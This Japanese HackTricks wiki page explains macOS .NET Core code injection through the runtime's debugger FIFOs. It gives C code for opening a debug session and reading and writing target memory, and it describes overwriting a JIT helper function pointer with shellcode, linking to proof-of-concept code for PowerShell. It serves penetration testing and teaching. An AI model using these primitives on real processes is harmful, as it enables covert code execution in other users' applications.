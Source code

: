 # macOS .Netアプリケーションのインジェクション

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ会社**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* **ハッキングのトリックを共有するには、PRを** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **に提出してください。**

</details>

## .NET Coreデバッグ <a href="#net-core-debugging" id="net-core-debugging"></a>

### **デバッグセッションの確立** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp)は、デバッガからデバッギーへの**通信**を処理する責任があります。\
これは、[dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127)で[**twowaypipe.cpp#L27**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27)を呼び出すことで、.Netプロセスごとに2つの名前付きパイプを作成します（1つは**`-in`**で終わり、もう1つは**`-out`**で終わり、残りの名前は同じになります）。

したがって、ユーザーの**`$TMPDIR`**に移動すると、.Netアプリケーションをデバッグするために使用できる**デバッグ用のFIFO**を見つけることができます。

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

関数[**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259)は、デバッガからの通信を処理します。

デバッガが最初に行う必要があることは、**新しいデバッグセッションを作成する**ことです。これは、`.NET`ソースから取得できる`MessageHeader`構造体で始まる`out`パイプを介してメッセージを送信することで行われます。
```c
struct MessageHeader
{
MessageType   m_eType;        // Type of message this is
DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
DWORD         m_dwId;         // Message ID assigned by the sender of this message
DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
// never read)
union {
struct {
DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
DWORD         m_dwMinorVersion;
} VersionInfo;
...
} TypeSpecificData;

BYTE                    m_sMustBeZero[8];
}
```
新しいセッションリクエストの場合、この構造体は以下のように設定されます：
```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```
構築が完了したら、`write` シスコールを使用してこれをターゲットに送信します。
```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```
次に、`sessionRequestData`構造体を送信する必要があります。この構造体には、セッションを識別するためのGUIDが含まれています。
```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```
セッションリクエストを送信すると、デバッガーセッションのリクエストが成功したかどうかを示すヘッダーを`out`パイプから読み取ります。
```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```
### メモリの読み取り

デバッグセッションが確立されている場合、[`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896)というメッセージタイプを使用して、メモリを**読み取る**ことができます。メモリを読み取るために必要な主なコードは次のとおりです：
```c
bool readMemory(void *addr, int len, unsigned char **output) {

*output = (unsigned char *)malloc(len);
if (*output == NULL) {
return false;
}

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = 0;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Make sure that memory could be read before we attempt to read further
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

memset(*output, 0, len);

// Read the memory from the debugee
if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
return false;
}

return true;
}
```
証明コード（POC）は[こちら](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b)で見つけることができます。

### メモリの書き込み
```c
bool writeMemory(void *addr, int len, unsigned char *input) {

sSendHeader.m_dwId++; // We increment this for each request
sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
sSendHeader.m_cbDataBlock = len;

// Write the header
if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Write the data
if (write(wr, input, len) < 0) {
return false;
}

// Read the response header
if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
return false;
}

// Ensure our memory write was successful
if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
return false;
}

return true;

}
```
このために使用されるPOCコードは[こちら](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5)で見つけることができます。

### .NET Coreコードの実行 <a href="#net-core-code-execution" id="net-core-code-execution"></a>

最初に、実行するためのシェルコードを保存するために**`rwx`**で実行されているメモリ領域を特定する必要があります。これは簡単に次のコマンドで行うことができます:
```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```
次に、実行をトリガーするためには、関数ポインタが上書きされる場所を知る必要があります。.NET CoreランタイムがJITコンパイルのためのヘルパー関数を提供するために使用する**Dynamic Function Table (DFT)**内のポインタを上書きすることが可能です。サポートされている関数ポインタのリストは、[`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h)内で見つけることができます。

x64バージョンでは、**シグネチャハンティング**テクニックを使用して、**`libcorclr.dll`**内のシンボル**`_hlpDynamicFuncTable`**への参照を検索することで、これを簡単に行うことができます。次に、この参照をデリファレンスすることができます。

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

残る作業は、シグネチャ検索を開始するためのアドレスを見つけることです。これには、別の公開されたデバッガ関数**`MT_GetDCB`**を利用します。これにより、ターゲットプロセスに関する有用な情報がいくつか返されますが、私たちの場合は、**`m_helperRemoteStartAddr`**というヘルパー関数のアドレスが含まれるフィールドに興味があります。このアドレスを使用することで、ターゲットプロセスのメモリ内に**`libcorclr.dll`が配置されている場所**を知ることができ、DFTの検索を開始することができます。

このアドレスを知ることで、関数ポインタを自分のシェルコードで上書きすることが可能です。

PowerShellにインジェクトするために使用される完全なPOCコードは、[こちら](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6)で見つけることができます。

## 参考文献

* この技術は、[https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)から取得されました。

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* **サイバーセキュリティ企業で働いていますか？** HackTricksであなたの会社を宣伝したいですか？または、最新バージョンのPEASSを入手したり、HackTricksをPDFでダウンロードしたりしたいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、**[**hacktricks repo**](https://github.com/carlospolop/hacktricks) **および** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出してください。**

</details>
